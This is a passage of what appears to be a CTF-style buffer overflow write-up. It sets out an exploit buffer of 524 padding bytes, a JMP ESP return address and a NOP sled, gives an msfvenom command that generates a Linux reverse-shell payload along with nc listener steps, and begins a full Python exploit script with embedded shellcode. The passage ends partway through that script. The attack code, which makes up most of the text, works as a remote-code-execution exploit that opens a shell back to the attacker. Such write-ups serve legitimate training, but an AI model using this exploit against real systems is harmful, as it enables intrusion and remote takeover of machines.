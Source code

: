```python
padding = b"A" * 524
eip = b"\xf3\x12\x17\x31"
nop_sled = b"\x90" * 16
payload = <your generated shellcode>

buffer = padding + eip + nop_sled + payload
```

#### **Test Locally**

* Run the Python exploit while the target is on your Windows VM.
* Start a `nc -lvnp 4444` listener.
* Verify that a reverse shell is received.

#### **Exploit the Actual Linux Target**

* Replace the payload with one for Linux (since the remote app runs on a Linux machine):

```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=IP LPORT=4444 EXITFUNC=thread -f c -a x86 -b "\x00"
```

* Use the same structure in the script (adjust the shellcode only).
* Run a netcat listener again:

```
nc -lvnp 4444
```

* Send the exploit and you'll get a shell

### Exploit

***

Knowing the steps we need to reproduce in order to get a shell, we can use the following exploit after we've followed everything:

```python
#!/usr/bin/python
import sys
import socket
from time import sleep

# ─── 1. YOUR SHELLCODE INSERTED HERE ─────────────────────────────────────────────
# Your msfvenom shellcode goes here as a bytes literal, generate with: 
# msfvenom -p linux/x86/shell_reverse_tcp LHOST=IP LPORT=4444 EXITFUNC=thread -f c -a x86 -b "\x00"

payload = (
    b"\xba\x4c\x84\x2a\x2a\xdb\xde\xd9\x74\x24\xf4\x5e\x2b\xc9"
    b"\xb1\x12\x83\xee\xfc\x31\x56\x0e\x03\x1a\x8a\xc8\xdf\x93"
    b"\x49\xfb\xc3\x80\x2e\x57\x6e\x24\x38\xb6\xde\x4e\xf7\xb9"
    b"\x8c\xd7\xb7\x85\x7f\x67\xfe\x80\x86\x0f\x0b\x7d\x6c\xd3"
    b"\x63\x83\x8e\xfa\x2f\x0a\x6f\x4c\xa9\x5c\x21\xff\x85\x5e"
    b"\x48\x1e\x24\xe0\x18\x88\xd9\xce\xef\x20\x4e\x3e\x3f\xd2"
    b"\xe7\xc9\xdc\x40\xab\x40\xc3\xd4\x40\x9e\x84"
)

# ─── 2. BUILD THE BUFFER ───────────────────────────────────────────────────────
#
#   [524 "A" bytes] + [4-byte JMP ESP address] + [NOP sled] + [payload]
#
padding  = b"A" * 524

# This 4-byte JMP ESP (little-endian) from mona. Change if yours differs.
eip      = b"\xF3\x12\x17\x31"   # JMP ESP → 0x311712f3

# NOP sled to give the shellcode some landing space
```